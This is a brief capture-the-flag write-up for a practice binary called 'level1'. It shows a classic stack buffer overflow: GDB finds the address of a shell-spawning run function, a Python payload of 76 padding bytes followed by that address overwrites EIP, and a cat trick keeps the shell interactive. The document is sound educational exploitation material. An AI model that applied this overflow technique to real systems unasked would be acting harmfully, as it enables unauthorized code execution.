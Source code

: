 After decompiling the code we can see a buffer of 76 bytes in the main and a run function that open a shell.

Using GDB we can see the run function address

```Console
(gdb) info function
[...]
0x08048444  run
[...]

```

Using python we create an input to fill our buffer and overwrite
the EIP registre with the run function address in little endian.

```Shell
python -c "print('A' * 76 + '\x44\x84\x04\x08')" > /tmp/input1

```

As we run level1 with our file as input the shell is non interactive and quit 
after executing the run function.To force the shell to be interactive we add 
`-` to our `cat` command to print stdin after the content of our file
and force the program to wait for user input.

```Shell
cat /tmp/input1 - | ./level1

```